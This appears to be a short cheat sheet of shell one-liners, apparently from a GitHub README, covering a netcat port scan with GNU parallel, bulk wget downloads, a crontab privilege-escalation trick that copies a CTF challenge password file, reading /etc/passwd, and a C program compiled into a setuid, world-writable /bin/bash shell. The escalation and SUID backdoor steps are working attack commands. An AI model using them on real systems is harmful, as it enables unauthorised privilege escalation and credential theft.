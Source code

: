 ![portscanner](https://user-images.githubusercontent.com/26827453/174215886-449ca2d0-4141-4ec8-a34d-e15a26ceb256.gif)

```sh
time seq 65535 | parallel -k --joblog portscan -j9 --pipe --cat -j200% -n9000 --tagstring '\033[30;3{=$_=++$::color%8=}m' 'nc -vz localhost $(head -n1 {})-$(tail -n1 {})'
```

### Download files fast as ****:

```sh
time seq 1000|parallel -a 1 -j1000 wget
```

### Exploiting crontab - If a script is running with higher privileges
```sh
echo "cat /challenge/app-script/ch4/.passwd >/tmp/cracked" > \
    cron.d/go && chmod a+x cron.d/go \
    && sleep 60 && \
    cat /tmp/cracked
```

### Get user ID

```sh
cat /etc/passwd | grep shell4cracked
```

### C program to get a shell

```sh
#include <stdlib.h>
#include <unistd.h>

int main() {
    setresuid(1028, 1028, 1028);
    setresuid(1028, 1028, 1028);  
    system("/bin/bash");
    return 0;
}

#### Compile and prepare

gcc -o /tmp/pwned /tmp/._cron/shell.c
chmod +s /tmp/pwned   
chmod a+rwx /tmp/pwned
```

### If you need to kill a specific process using a given port

```sh
fuser -k 445/tcp
```
